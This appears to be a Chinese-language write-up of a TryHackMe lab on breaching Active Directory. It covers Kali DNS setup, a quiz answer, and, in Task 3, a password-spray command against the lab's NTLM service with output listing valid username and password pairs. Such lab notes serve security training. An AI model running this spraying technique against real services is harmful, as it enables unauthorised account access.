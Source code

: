 # kali配置DNS

配置DNS文件
```
vim /etc/resolv.conf 
```

上面配置文件填入以下内容
```
nameserver 10.200.32.101     #THMDC的ip
nameserver 114.114.114.114   #真实的DNS地址，以保证kali还能连接网络
```

重启网络
```
systemctl restart systemd-resolved
```

验证
```
┌──(root💀kali)-[/etc/NetworkManager]
└─# nslookup thmdc.za.tryhackme.com
Server:         10.200.32.101
Address:        10.200.32.101#53

Name:   thmdc.za.tryhackme.com
Address: 10.200.32.101

```

# Task 2  OSINT and Phishing

> What popular website can be used to verify if your email address or password has ever been exposed in a publicly disclosed data breach?

> HaveIBeenPwned


# Task 3  NTLM Authenticated Services

NTLM 身份验证流程如下图

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/c9113ad0ff443dd0973736552e85aa69.png)

```
┌──(root💀kali)-[~/tryhackme/BreachingActiveDireectory]
└─# python3 ntlm_passwordspray.py -u usernames.txt -f 'za.tryhackme.com' -p 'Changeme123' -a 'http://ntlmauth.za.tryhackme.com'
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
```